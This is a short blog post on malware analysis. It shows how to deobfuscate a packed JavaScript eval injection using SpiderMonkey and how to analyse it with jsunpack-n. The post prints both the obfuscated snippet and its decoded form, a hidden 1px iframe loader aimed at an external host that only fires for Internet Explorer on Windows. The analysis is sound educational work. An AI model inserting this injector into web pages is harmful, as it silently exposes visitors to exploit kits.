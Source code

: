 ```yaml
---
layout: post
title: "Javascript malware | Checking it out with Spidermonkey and jsunpackn.py"
date: 2015-02-01
comments: true
categories:
---
```

Allright, I've started going through the [Malware Analyst's Cookbook ](http://www.amazon.com/Malware-Analysts-Cookbook-DVD-Techniques/dp/0470613033), the book are almost like a big guide for all the tools a malware researcher may need. I like it, opens up for yourself to have fun and try the stuff!

So I will give som articles showing the usage of tools I want to pinpoint my learning at.

## Spidermonkey

>>>[SpiderMonkey](https://developer.mozilla.org/en-US/docs/Mozilla/Projects/SpiderMonkey) is Mozilla's JavaScript engine written in C/C++. It is used in various Mozilla products, including Firefox, and is available under the MPL2.

It's supernice to have a javascript engine callable from the terminal.
Lets have a very basic example of dealing with obfuscated code being called by eval.

I'll found [this](http://stackoverflow.com/questions/7765594/javascript-code-injected-into-site-can-you-help-me-decrypt-it) post at stackoverflow.

He want the following code decrypted:

```javascript
eval(function(p,a,c,k,e,d){e=function(c){return(c<a?'':e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--){d[e(c)]=k[c]||e(c)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('i 9(){a=6.h(\'b\');7(!a){5 0=6.j(\'k\');6.g.l(0);0.n=\'b\';0.4.d=\'8\';0.4.c=\'8\';0.4.e=\'f\';0.m=\'w://z.o.B/C.D?t=E\'}}5 2=A.x.q();7(((2.3("p")!=-1&&2.3("r")==-1&&2.3("s")==-1))&&2.3("v")!=-1){5 t=u("9()",y)}',41,41,'el||ua|indexOf|style|var|document|if|1px|MakeFrameEx|element|yahoo_api|height|width|display|none|body|getElementById|function|createElement|iframe|appendChild|src|id|25u|msie|toLowerCase|opera|webtv||setTimeout|windows|http|userAgent|500|asso|navigator|com|showthread|php|72291731'.split('|'),0,{}))
```

Save the code inte a file with a firstline of `eval = print;`

The from the terminal call: `js evil.js | indent`
Indent is a nice tool in linux used to indent and make the code readable, it's made for C but works allright for languages with a similar syntax.

Output:

```javascript
function
MakeFrameEx ()
{
  element = document.getElementById ('yahoo_api');
  if (!element)
    {
      var el = document.createElement ('iframe');
      document.body.appendChild (el);
      el.id = 'yahoo_api';
      el.style.width = '1px';
      el.style.height = '1px';
      el.style.display = 'none';
    el.src = 'http://asso.25u.com/showthread.php?t=72291731'}
}

var ua = navigator.userAgent.toLowerCase ();
if (((ua.indexOf ("msie") != -1 && ua.indexOf ("opera") == -1
      && ua.indexOf ("webtv") == -1)) && ua.indexOf ("windows") != -1)
  {
  var t = setTimeout ("MakeFrameEx()", 500)
  }


```

You can do this anywhere you have a javascript interpreter but the shell offers simplicity and effectiveness for us who aren't web devs.

As for the code analysis we see that it creates an iframe and appends it to the body. The link are down but you may assume it was an exploitkit, deface page or similar.

##jsunpackn.py
>[jsunpack-n](https://code.google.com/p/jsunpack-n/) emulates browser functionality when visiting a URL. It's purpose is to detect exploits that target browser and browser plug-in vulnerabilities. It accepts many different types of input:

>* PDF files - samples/sample-pdf.file
* Packet Captures - samples/sample-http-exploit.pcap
* HTML files
* JavaScript files
* SWF files

What I'm most excited about right now is malicious pdf files.
I've downloaded a couple of samples from [http://contagiodump.blogspot.se/2013/03/16800-clean-and-11960-malicious-files.html](http://contagiodump.blogspot.se/2013/03/16800-clean-and-11960-malicious-files.html)